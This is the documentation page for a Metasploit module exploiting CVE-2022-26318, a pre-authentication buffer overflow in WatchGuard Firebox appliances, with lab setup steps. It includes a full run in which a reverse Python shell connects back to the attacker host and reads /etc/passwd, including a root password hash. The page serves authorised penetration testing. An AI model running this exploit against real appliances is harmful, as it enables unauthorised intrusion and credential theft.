 ## Vulnerable Application
This module exploits a buffer overflow at the administration interface (8080 or 4117) of WatchGuard Firebox and XTM appliances
which is built from a cherrypy python backend sending XML-RPC requests to a C binary called `wgagent` using pre-authentication
endpoint `/agent/login`.
This vulnerability impacts Fireware OS before 12.7.2_U2, 12.x before 12.1.3_U8, and 12.2.x through 12.5.x before 12.5.9_U2.
Successful exploitation results in remote code execution as user `nobody`.

## Installation
### Installation steps to install Watchguard Firebox virtual appliance
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download the Watchguard Firebox `12.7.2` ova instance.
* You can download it from [here](https://cdn.watchguard.com/SoftwareCenter/Files/XTM/12_7_2/FireboxV_12_7_2.ova).
* Import the ova instance in your virtualization engine.
* See instructions for VirtualBox [here](https://www.simplified.guide/virtualbox/vm-import).
* Configure the network interfaces (first interface is WAN and second interface is internal).
* You can either choose bridged or NAT depending on your preference for the test environment.
* Boot up the Firebox VM.
* You should be able to access the Watchguard Firebox either thru the console, `ssh` on port `4117`
* or via the `webui` via `https://your_firebox_wan_ip:8080`.
* The default account is `admin` and password is `readwrite`.

You are now ready to test the module.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/watchguard_firebox_unauth_rce_cve_2022_26318`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Automatic>`
- [x] `exploit`

you should get a `interactive python shell` .

```shell
msf exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > options

Module options (exploit/linux/http/watchguard_firebox_unauth_rce_cve_2022_26318):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                         using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       WatchGuard Firebox base url
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CreateSession  true             no        Create a new session for every successful login
   LHOST                           yes       The listen address (an interface may be specified)
   LPORT          4444             yes       The listen port
   SHELL          /usr/bin/python  yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Reverse Python Interactive Shell)

View the full module info with the info, or info -d command.
```

## Options
Please set the `SHELL` option to `/usr/bin/python` becuase this is the only shell available on the appliance.

## Scenarios
###  Watchguard Firebox  Automatic - cmd/unix/reverse_python
```shell
msf exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > set rhosts 192.168.201.24
rhosts => 192.168.201.24
msf exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(linux/http/watchguard_firebox_unauth_rce_cve_2022_26318) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.24:8080 can be exploited.
[+] The target appears to be vulnerable.
[*] 192.168.201.24:8080 - Attempting to exploit...
[*] 192.168.201.24:8080 - Sending payload...
[*] Command shell session 9 opened (192.168.201.8:4444 -> 192.168.201.24:40354) at 2024-03-03 19:50:17 +0000


Shell Banner:
Python 2.7.14 (default, Oct 16 2019, 15:38:29)
[GCC 6.5.0] on linux2
-----

>>> import os
>>> import subprocess
>>> os.listdir("./")
['debug', 'platform', 'log', 'wgapi', 'hosts', 'mdev.seq', 'admd.rsync', 'portald', 'portald_data', 'eth0mac', 'rs_sn', 
'.libtdts_ctrl.lck', 'fw', 'mwan.input', 'wgmsg', 'nwd_dfltmac', 'fqdn_dns_server_list', 'lm.conf', 'sw.conf', 'wcfqdn_label',
'ifmd.cfg.lock', 'wgif_dhcp_eth0.pid', 'wgif_dhcp_eth0_uds', 'wgif_eth1.cfg.lock', 'wgif_eth1.cfg', 'rootca', 'haopevent.log',
'keeper_init_uds', 'sslvpn', 'empty', 'certs.rsync', 'certs.unpack', 'csync', 'ldapsCA', 'iked.semid', 'system_hash.txt',
'iked.params', 'iked.pid', 'cdiag', 'lockout_users.xml', 'dxcpd', 'wgredir.txt', 'dimension', 'affinityd.err', 'wgif_eth0.cfg.lock',
'wgif_eth0.cfg', 'dhcp6d.conf', '6OGD.py', 'ifmd.cfg', 'dhcpd.conf', 'dnsmasq-internal.conf', 'radvd.conf', 'yDnm.py', 'HPM4.py']
>>>
>>> os.getuid()
99
>>> os.getgid()
96
>>> print(open("/etc/passwd").read())
root:!$6$XlAENt8.$3RgXuDXBhgsf0FqJ0hrzmrh6qAhvMlCkU6Z976KIDI27gxIZOI0f27lkyJwubRxW5VaO4i9olIybS0Z2R9Ihw1:0:0:Administrator:/root:/bin/ash
bin:x:1:1:bin:/bin:
system:x:2:96:WG System daemons:/:
nobody:x:99:99:Nobody:/:
wgntp:x:98:98:OpenNTP daemon:/var/run/ntpd:
openvpn:x:97:97:OpenVPN daemon:/:
www:x:96:95:WebUI:/:
cli:x:95:95:CLI:/:
cfm:x:94:94:CFM:/var/cfm_sandbox:
agent:x:93:96:WG Agent:/:
scand:x:91:94:Scanning Daemon:/var/run/scand:
spamd:x:90:94:Spam Daemon:/var/cfm_sandbox:
sshd:x:89:89:sshd privilege separation:/var/empty:
quagga:x:88:88:Quagga Dynamic Routing:/var/run/quagga:
wgcha:x:92:96:WG Call Home Agent:/var/run/wgcha:
netdbg:x:87:87:Diagnostic Utilities:/tmp/netdbg:
cwagent:x:100:100:ConnectWise Agent:/var/empty:
dimension:x:101:101:Dimension Service:/var/run/dimension:
tss:x:102:102:trousers daemon:/:
atagent:x:103:103:Autotask Agent:/var/empty:
psad:x:104:104:PSA Daemon:/var/empty:
guac:x:105:105:Guacamole Daemons:/var/run/guac:
portald:x:106:105:Portald:/var/run/portald:
admin:x:109:109:Admin Cli Access:/etc/wg/admin-home:/usr/bin/cli
wgadmin:x:109:109:Admin Cli Access:/etc/wg/admin-home:/usr/bin/cli
dnswatchd:x:110:96:DNSWatch Service Daemon:/var/empty:
tpagent:x:111:96:Tigerpaw Agent:/var/empty:

>>> print(open("/etc/group").read())
admin:x:0:0
bin:x:1:admin,bin
nobody:x:99:
wgntp:x:98:
openvpn:x:97:
wg:x:96:
ui:x:95:
proxy:x:94:
sshd:x:89:
quagga:x:88:
netdbg:x:87:
cwagent:x:100:
dimension:x:101:
tss:x:102:
atagent:x:103:
psad:x:104:
ctlvpn:x:105:
dnswatchd:x:107:

>>> os.uname()
('Linux', 'FireboxV', '4.14.83', '#1 SMP Mon Sep 27 17:48:07 PDT 2021', 'x86_64')
>>>
```
## Limitations
There is no `shell` installed and there is only a `busybox` version available with a very limited unix command set.
The only option is to use the interactive python shell (`/usr/bin/python -i`) as payload to get access to the target.
Check out `https://docs.python.org/2.7/library/os.html` to execute commands on the target.
Another limitation is the crash of `wgagent` service that will show up in the diagnostic log and will break the user login via the `webui`.

